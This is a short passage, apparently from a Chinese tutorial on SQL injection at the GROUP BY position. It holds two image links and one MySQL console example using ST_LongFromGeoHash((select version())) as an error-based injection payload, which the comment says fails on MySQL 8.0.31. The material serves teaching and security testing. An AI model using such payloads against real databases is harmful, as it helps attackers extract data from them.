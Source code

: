 ![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161740311.png)

![图片](/resource/SQL注入之GroupBy位置点注入.assets/640-20230814161740307.png)

```sql
# mysql 8.0.31 失败
mysql&gt; select * from users where id=2 group by 1,(ST_LongFromGeoHash((select version())));
&#43;----&#43;-------&#43;--------&#43;------&#43;----------&#43;
| id | name  | pass   | age  | area     |
&#43;----&#43;-------&#43;--------&#43;------&#43;----------&#43;
|  2 | test2 | 543210 |   20 | shanghai |
&#43;----&#43;-------&#43;--------&#43;------&#43;----------&#43;
1 row in set (0.01 sec)
```
